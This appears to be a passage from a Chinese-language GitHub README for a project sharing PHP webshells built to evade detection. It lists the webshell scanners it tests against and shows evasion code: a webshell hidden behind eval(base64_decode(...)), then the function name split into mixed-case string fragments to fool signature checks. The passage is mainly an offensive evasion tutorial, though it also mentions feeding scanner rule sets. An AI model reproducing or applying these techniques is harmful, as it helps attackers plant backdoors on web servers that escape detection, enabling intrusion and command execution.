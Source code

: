 # S9MF-php-webshell-bypass
为方便WAF入库的项目 | 分享PHP免杀大马 | 菜是原罪 | 多姿势(假的就一个) 

## 前言
- - -
webshell就是以asp、php、jsp或者cgi等网页文件形式存在的一种命令执行环境，也可以将其称做为一种网页后门。又分大马和小马，大马就是功能比较多的，而小马更像一句话，本文介绍的是免杀PHP大马。  
![1](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qmh8h5snj30aa096dgr.jpg)  

## WAF
- - -
测试用的WAF

WAF |  下载
------------ |  ----------
 D盾_Web查杀  | http://www.d99net.net/down/d_safe_2.1.4.4.zip
 河马webshell查杀 |  http://dl.shellpub.com/hm-ui/latest/HmSetup.zip?version=1.5.0
深信服WebShellKillerTool | http://edr.sangfor.com.cn/tool/WebShellKillerTool.zip
网站安全狗网马查杀 | http://download.safedog.cn/download/software/safedogwzApache.exe
OpenRASP WEBDIR+检测引擎 | https://scanner.baidu.com

![2](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qnshf8voj31400idwhz.jpg)
![3](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qnsiq1zej314d0ijabt.jpg)
![4](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qnw2hblng303c0370td.gif)

## Test
- - -
首先，我们的思路是以这段代码开始：
```php
<?php
$code = '大马源码base64加密';
eval(base64_decode($code));
?>
```
动图:
![5](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qwjej1y0g30qd0hednu.gif)

waf查杀:  
![6](https://ws1.sinaimg.cn/large/006VEsyOgy1g0qwqzgr9dj30lg06omxe.jpg)

分割函数:
我们把base64_decode大小写分割成多个变量，再合并，并赋值给其他变量。
```
<?php
$a = 'bAsE';
$b = '64_dEcODE';
$c = $a.$b;
$d = $c('');
eval($d);
```


